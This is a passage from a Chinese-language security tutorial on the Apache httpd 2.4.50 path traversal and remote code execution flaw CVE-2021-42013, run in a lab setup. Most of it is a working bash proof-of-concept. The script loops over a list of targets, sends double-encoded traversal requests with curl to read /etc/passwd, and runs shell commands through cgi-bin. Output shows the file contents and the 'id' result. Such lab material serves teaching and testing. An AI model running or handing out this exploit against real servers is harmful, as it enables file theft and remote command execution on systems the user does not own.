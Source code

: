 通过netstat -antp命令可以查看服务状态：

```bash
root@1dd54d1b3962:/home# netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      26722/httpd

```

**我们来来看看第二种方案，尝试使用MiTuan直接启动环境。**

我已经构建好了标准的2.4.50版本httpd服务器环境，你可以访问 [MiTuan](http://mituan.zone)，直接搜索\[极客时间-漏洞挖掘与智能攻防实战\]并选择\[CVE-2021-42013\]来进行测试。

PoC代码如下：

```
#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
  echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
  echo ./PoC.sh targets.txt /etc/passwd
  echo ./PoC.sh targets.txt /bin/sh id
  exit
fi

for host in $(cat $1);
do
  echo $host
  if [[ $3 == '' ]]; then
    curl -v --path-as-is "$host/icons/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/$2";
    exit
  fi
  curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/$2";
done

```

执行PoC代码：

```bash
root@1dd54d1b3962:/home# ./CVE-2021-42013.sh targets.txt /etc/passwd
127.0.0.1
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

root@1dd54d1b3962:/home# ./CVE-2021-42013.sh targets.txt /bin/sh id
http://127.0.0.1
uid=1(daemon) gid=1(daemon) groups=1(daemon)

```
